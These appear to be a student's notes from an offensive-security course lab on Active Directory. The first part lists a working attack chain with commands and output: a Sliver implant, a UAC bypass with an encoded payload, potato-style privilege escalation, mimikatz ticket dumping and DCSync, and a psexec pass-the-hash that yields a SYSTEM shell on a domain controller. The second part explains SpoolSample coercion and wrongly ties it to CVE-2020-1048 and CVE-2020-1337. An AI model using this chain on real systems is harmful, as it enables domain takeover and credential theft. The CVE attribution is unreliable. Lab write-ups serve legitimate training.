 - sliver implant uploaded to server and executed
- needed to get high integrity shell
	- ran `execute-assembly /home/roger/Documents/Tools/SharpBypassUAC.exe -b eventvwr -e YzpcdXNlcnNcb2Zmc2VjXGRvd25sb2Fkc1x0Y3AuZXhl` to bypass UAC and get a high integrity shell
	- needed to upload JuicyPotatoNG and execute another shell to get SeDebugPriv enabled
		- Note: tried a powershell script that should enable the priv without having to have 3 shells on the machine, but that failed
- followed the course instructions (use Edge browser to get admin tgt)
- dumped tickets `sekurlsa::tickets /export`
- used PsExec to get admin shell on dc from rdp connection on other server
- alt method:
	- used .`\mimikatz "privilege::debug" "kerberos::ptt c:\tools\admin.kirbi" "lsadump::dcsync /domain:prod.corp1.com "exit"` to dump admin ntlm hash
	- on `kali` used `impacket-psexec` to access shell on DC
```bash
❯ impacket-psexec -dc-ip 192.168.189.70 -hashes <redacted>:<redacted>  <domain>/admin@1<ip>
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on <ip>.....
[*] Found writable share ADMIN$
[*] Uploading file FHnxAWEI.exe
[*] Opening SVCManager on <ip>.....
[*] Creating service esXF on <ip>.....
[*] Starting service esXF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


**SpoolSample** exploits a vulnerability in the **Windows Print Spooler service** (CVE-2020-1048 and CVE-2020-1337) that can allow an attacker to force a Domain Controller (DC) or another target system to authenticate to an attacker's system via NTLM. This can be leveraged for **credential theft** and **privilege escalation**.

### Background of the Windows Print Spooler Service
The **Windows Print Spooler** is a service that manages print jobs sent to printers. It's available on most Windows systems, including Domain Controllers, and it's often enabled by default. The vulnerability lies in the fact that the service can be tricked into connecting to an attacker-controlled machine and leaking authentication details (NTLM hashes).

### How SpoolSample Works

1. **Print Spooler Abuses Remote Procedure Call (RPC)**:
   The Print Spooler uses **Remote Procedure Call (RPC)** to communicate with other systems and printers. SpoolSample abuses this behavior by making an RPC request to a **Domain Controller** or another target, telling it to connect to a print server.

2. **Target (DC) Connects to a Malicious SMB Server**:
   In the attack, the **target (Domain Controller or high-privilege machine)** is told to connect to a network resource (a print server). Instead of a legitimate printer, the attacker provides a malicious **SMB server** under their control. Since the target trusts the request, it attempts to authenticate with the attacker’s SMB server.
